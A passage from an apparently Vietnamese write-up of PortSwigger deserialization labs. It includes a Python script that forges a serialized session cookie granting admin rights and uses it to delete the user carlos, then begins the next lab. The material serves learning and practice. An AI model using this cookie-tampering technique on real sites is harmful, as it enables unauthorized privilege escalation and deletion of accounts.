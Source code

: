 ```python=
cookies = {
    'session': "%54%7a%6f%30%4f%69%4a%56%63%32%56%79%49%6a%6f%79%4f%6e%74%7a%4f%6a%67%36%49%6e%56%7a%5a%58%4a%75%59%57%31%6c%49%6a%74%7a%4f%6a%59%36%49%6e%64%70%5a%57%35%6c%63%69%49%37%63%7a%6f%31%4f%69%4a%68%5a%47%31%70%62%69%49%37%59%6a%6f%78%4f%33%30%3d",
}

response = session.get(
    url + '/admin/delete?username=carlos',
    cookies=cookies,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/S1trCsDK6.png)

chỉ còn delete wiener
![image](https://hackmd.io/_uploads/B1lQCsPKT.png)

mục đích của chúng ta đã hoàn thành khi trang web chuyển hướng chúng ta đến xóa carlos và chúng ta cũng đã giải quyết được bài lab

![image](https://hackmd.io/_uploads/r1Ld2sDF6.png)

mình đưa vào repeater và burp suite tự động lần lượt decode url và base 64 cho mình ở góc bên trái

![image](https://hackmd.io/_uploads/BkV11TDKp.png)

lỗi của bài là không có cơ chế kiểm soát đầu vào của người dùng ở cả bên client và server

## 2. Lab: Modifying serialized data types

link: https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types

### Đề bài

![image](https://hackmd.io/_uploads/By4rl6PKT.png)

### Phân tích

<ul>
    <li>đề bài yêu cầu chúng ta tận dụng lỗi Insecure deserialization ở cookie và leo thang đặc quyền để xóa người dùng là carlos
    </li>
    <li>mình đã đăng nhập bằng tài khoản <b>wiener:peter</b> rồi chặn gói tin ở burp suite và view details 1 sản phầm</li>
</ul>
